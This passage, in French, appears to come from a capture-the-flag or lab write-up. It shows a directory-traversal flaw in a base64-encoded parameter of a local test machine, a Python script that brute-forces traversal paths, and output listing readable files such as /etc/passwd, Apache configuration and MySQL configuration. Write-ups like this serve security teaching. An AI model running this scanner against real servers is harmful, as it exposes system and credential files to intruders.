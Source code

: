 Cette URL citée retourne un message 404 en ascii art.

Une fois décodé, le base64 correspond à `ascii1.txt`, fichier que l'on retrouve via énumération sous `/ascii/letras/`. On a donc une faille d'inclusion potentielle ou au moins e directory traversal.

Dans une telle situation, pas de choix, il nous faux coder un petit script car les outils existants ne vont pas nous permettre d'encoder le paramètre à la volée.

```python
import sys
from base64 import b64encode
import requests

sess = requests.session()
with open(sys.argv[1], "rb") as fd:
    for line in fd:
        line = line.strip()
        if not line:
            continue
        line = b"../../../../" + line
        url = f"http://192.168.56.87/v.php?a={b64encode(line).decode()}"
        response = sess.get(url) 
        if response.status_code != 500:
            print(f"Inclusion of {line.decode()} possible. URL {url}")
```

On accède bien aux fichiers mais ceux-çi ne sont pas très intéresants car on ne peut pas y injecter des données de quelque façon que ce soit.

```bash
$ python3 brute_param.py wordlists/files/Linux-files.txt
Inclusion of ../../../..//etc/passwd possible. URL http://192.168.56.87/v.php?a=Li4vLi4vLi4vLi4vL2V0Yy9wYXNzd2Q=
Inclusion of ../../../..//etc/group possible. URL http://192.168.56.87/v.php?a=Li4vLi4vLi4vLi4vL2V0Yy9ncm91cA==
Inclusion of ../../../..//etc/hosts possible. URL http://192.168.56.87/v.php?a=Li4vLi4vLi4vLi4vL2V0Yy9ob3N0cw==
Inclusion of ../../../..//etc/motd possible. URL http://192.168.56.87/v.php?a=Li4vLi4vLi4vLi4vL2V0Yy9tb3Rk
Inclusion of ../../../..//etc/issue possible. URL http://192.168.56.87/v.php?a=Li4vLi4vLi4vLi4vL2V0Yy9pc3N1ZQ==
Inclusion of ../../../..//etc/apache2/apache2.conf possible. URL http://192.168.56.87/v.php?a=Li4vLi4vLi4vLi4vL2V0Yy9hcGFjaGUyL2FwYWNoZTIuY29uZg==
Inclusion of ../../../..//etc/apache2/ports.conf possible. URL http://192.168.56.87/v.php?a=Li4vLi4vLi4vLi4vL2V0Yy9hcGFjaGUyL3BvcnRzLmNvbmY=
Inclusion of ../../../..//etc/apache2/sites-available/default possible. URL http://192.168.56.87/v.php?a=Li4vLi4vLi4vLi4vL2V0Yy9hcGFjaGUyL3NpdGVzLWF2YWlsYWJsZS9kZWZhdWx0
Inclusion of ../../../..//etc/init.d/apache2 possible. URL http://192.168.56.87/v.php?a=Li4vLi4vLi4vLi4vL2V0Yy9pbml0LmQvYXBhY2hlMg==
Inclusion of ../../../..//etc/mysql/my.cnf possible. URL http://192.168.56.87/v.php?a=Li4vLi4vLi4vLi4vL2V0Yy9teXNxbC9teS5jbmY=
```

Un petit tour sur la liste des utilisateurs :
